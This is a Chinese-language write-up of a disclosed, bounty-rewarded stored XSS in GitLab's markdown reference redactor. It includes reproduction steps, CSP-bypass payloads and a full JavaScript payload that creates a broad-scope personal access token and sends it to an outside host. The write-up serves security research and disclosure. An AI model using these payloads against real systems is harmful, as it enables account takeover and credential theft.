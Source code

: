 
https://gitlab.com/gitlab-org/gitlab/-/issues/213273

gitlab漏洞系列-存在于markdown中的存储型XSS

声明：文章中涉及的程序(方法)可能带有攻击性，仅供安全研究与教学之用，读者将其信息做其他用途，由用户承担全部法律及连带责任，文章作者不承担任何法律及连带责任。


## 背景
vakzz大佬于2020年提交了这个漏洞:
可以通过`ReferenceRedactorFilter`将任意html注入到标记中。这是因为data-original属性允许存储html编码的数据，然后将其提取并用作链接内容。如果原始数据已经被html编码，那么它将在编校后被未编码:
```ruby
    def redacted_node_content(node)  
      original_content = node.attr('data-original')  
      link_reference = node.attr('data-link-reference')

      # Build the raw <a> tag just with a link as href and content if  
      # it's originally a link pattern. We shouldn't return a plain text href.  
      original_link =  
        if link_reference == 'true'  
          href = node.attr('href')  
          content = original_content

          %(<a href="#{href}">#{content}</a>)  
        end

      # The reference should be replaced by the original link's content,  
      # which is not always the same as the rendered one.  
      original_link || original_content || node.inner_html  
    end  
```

## 复现步骤
1.用一个账户创建一个私有项目;

2.在这个私有项目中创建一个issue;

3.登出,然后重新以另外一个账户登录,此账户没有权限查看上面那个私有项目;

4.使用以下链接对与私人issue相关的issue发表评论:
```
link: <a href="https://gitlab.com/wbowling/private-project/-/issues/1" title="title">xss &lt;img onerror=alert(1) src=x></a> 
```
5.渲染的markdown包含了注入的html:
```
<div class="md"><p data-sourcepos="1:1-1:124" dir="auto">link: <a href="https://gitlab.com/wbowling/private-project/-/issues/1">xss <img onerror="alert(1)" src="x"></a></p></div> 
```

6.上面的代码被csp机制阻止了，但是可以像`https://hackerone.com/reports/662287#activity-6026826`(主要逻辑就是创建了一个类为`class='atwho-view select2-drop-mask pika-select' `的图像)一样绕过(需要点击页面上的任何地方，但是链接是全屏的):
```
link: <a href="https://gitlab.com/wbowling/private-project/-/issues/1" title="title">csp   
&lt;a   
  data-remote=&quot;true&quot;  
  data-method=&quot;get&quot;  
  data-type=&quot;script&quot;  
  href=/wbowling/wiki/raw/master/test.js  
  class='atwho-view select2-drop-mask pika-select'  
&gt;  
  &lt;img height=10000 width=10000&gt;  
&lt;/a&gt;  
</a>  
```
产生了以下html:
```
<div class="md issue-realtime-trigger-pulse"><p data-sourcepos="1:1-11:4" dir="auto">link: <a href="https://gitlab.com/wbowling/private-project/-/issues/1">csp  
</a><a data-remote="true" data-method="get" data-type="script" href="/wbowling/wiki/raw/master/test.js" class="atwho-view select2-drop-mask pika-select">  
<img height="10000" width="10000">  
</a>  
</p></div>  
```
## 影响
在ReferenceRedactor运行的任何地方，都可以注入任意的html。用户可以设置自己的私人项目，然后在公共项目上发表评论或问题，链接到该项目并注入xss


## 绕过csp示例
这里并不需要与用户交互
https://gitlab.com/username/project-name/-/issues/1
```
link: <a href="https://gitlab.com/wbowling/private-project/-/issues/1" title="title">csp &lt;script src=&quot;/username/public/-/raw/master/test.js&quot;&gt;&lt;/script&gt; </a>
```
如果你通过git lfs(大文件存储,具体可以参考https://docs.github.com/en/repositories/working-with-files/managing-large-files/installing-git-large-file-storage)添加了一个javascript文件，那么它将会以 `content-type`为application/javascript结束，并且可以作为一个脚本src使用，因为在csp中`script-src 'self'`。
```
$ curl -I 'https://gitlab.com/vakzz-h1/public/-/raw/master/test.js'
HTTP/2 200
date: Thu, 02 Apr 2020 03:39:57 GMT
content-type: application/javascript
...
```
还有一个例子用来展示影响，如果你点击ok，它会创建一个个人令牌(注意是包含所有范围的令牌,注:gitlab里面的scopes指的是类似读，写仓库之类的权限,就是说拿到这个令牌,你可以对某个仓库进行读写操作,我这里只说大致的逻辑，方便读者理解)，并发送到远程服务器。xss可以隐藏在一个问题或评论中，并且可以触发任何查看页面的人。
issue的链接为:
`https://gitlab.com/vakzz-h1/stored-xss/-/issues/4`
填写在这个issue里面的code为:
```
<a href="https://gitlab.com/wbowling/private-project/-/issues/1" title="title">create and leak an access token 
&lt;script src=&quot;/vakzz-h1/public/-/raw/master/payload.js&quot;&gt;&lt;/script&gt;
</a>
```
payload.js为:
```JavaScript
async function getToken() {
const formData = new FormData();

formData.append(
document.querySelector('meta[name="csrf-param"]').content,
document.querySelector('meta[name="csrf-token"]').content
);
formData.append("personal_access_token[name]", "test");
formData.append("personal_access_token[scopes][]", "api");
formData.append("personal_access_token[scopes][]", "read_user");
formData.append("personal_access_token[scopes][]", "read_repository");
formData.append("personal_access_token[scopes][]", "write_repository");
formData.append("personal_access_token[scopes][]", "read_registry");

const response = await fetch(
"https://gitlab.com/profile/personal_access_tokens",
{
credentials: "include",
body: formData,
method: "POST",
mode: "cors"
}
);

const parser = new DOMParser();
const doc = parser.parseFromString(await response.text(), "text/html");
return doc.querySelector("#created-personal-access-token").value;
}

if (confirm("Create an access token?")) {
getToken().then(token => {
alert("Created token is: " + token);
const image = new Image();
image.src = `//aw.rs/g/leak.gif?token=${token}`;
});
}


```


## 后续
这个漏洞官方给了5000美元




